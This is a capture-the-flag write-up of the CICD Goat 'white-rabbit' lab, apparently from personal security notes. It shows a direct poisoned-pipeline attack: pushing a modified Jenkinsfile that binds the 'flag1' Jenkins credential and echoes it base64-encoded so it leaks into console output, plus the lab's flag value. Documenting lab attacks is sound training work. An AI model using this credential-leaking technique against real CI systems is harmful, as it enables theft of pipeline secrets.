 ```yaml
---
Category:
  - CI/CD
Difficulty: Easy
Platform: CICD Goat
tags:
  - d-ppe
  - poisoned-pipeline-execution
status: 3. Complete
---
```


>[!quote]
>I’m late, I’m late! No time to say ״hello, goodbye״! Before you get caught, use your access to the *Wonderland/white-rabbit repository* to steal the flag1 secret stored in the [Jenkins](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md) credential store [^jenkins-creds].

[^jenkins-creds]: [Secrets and credentials in Jenkins](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md#Secrets%20and%20credentials)

Scenario: 
- Secret is stored with the Global scope, which makes it **accessible to any pipeline** on the Jenkins instance. 
- `Jenkinsfile`[^jenkinsfile] is not protected. 
- https://www.jenkins.io/doc/book/pipeline/jenkinsfile/#handling-credentials 

[^jenkinsfile]: [Jenkins pipeline & Jenkinsfile](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md#Jenkins%20pipeline%20&%20Jenkinsfile)

Hint:
- Try to trigger a pipeline through the repository.
- How can you access credentials using the Jenkinsfile?

Solution: 
- [CICD-SEC-4 Direct Poisoned Pipeline Execution (D-PPE) ](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/CICD%20security.md#CICD-SEC-4%20Poisoned%20Pipeline%20Execution)
- https://github.com/cider-security-research/cicd-goat/blob/main/solutions/white-rabbit.md

---

>[!tldr]
>Because we have write access to the `Jenkinsfile` inside the *Wonderland/white-rabbit repository* in Gitea, we can inject arbitrary shell commands that access the Global scope and leak the flag. Submitting a PR containing our "poisoned" Jenkinsfile, we can trigger a new pipeline that will execute our injected commands.
>

Cloned, created a new branch and pushed the new Jenkinsfile: 
```bash
$ git clone http://localhost:3000/Wonderland/white-rabbit
$ git checkout -b dppe
Switched to a new branch 'dppe'
$ nano Jenkinsfile
...

$ git commit Jenkinsfile -m "poisoned"
[dppe e90238f] poisoned
 1 file changed, 4 insertions(+), 2 deletions(-)

$ git push -u origin dppe
Username for 'http://localhost:3000': thealice
Password for 'http://thealice@localhost:3000':
...
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
 * [new branch]      dppe -> dppe
branch 'dppe' set up to track 'origin/dppe'.
```

*Jenkinsfile*:
```json
pipeline {
    agent any
    environment {
        ...
        FLAG = credentials('flag1')
    }

    stages {
        stage ('Install_Requirements') {
            steps {
                sh """
	                echo $FLAG | base64
                """
            }
        }
...
```

Opened a PR in order to trigger the pipeline:
![](attachments/CICD-goat-white-rabbit-1.png)

After the pipeline is executed, retrieved the various information from the console output:
![](attachments/CICD-goat-white-rabbit-2.png)

>[!success] Flag
>`06165DF2-C047-4402-8CAB-1C8EC526C115`
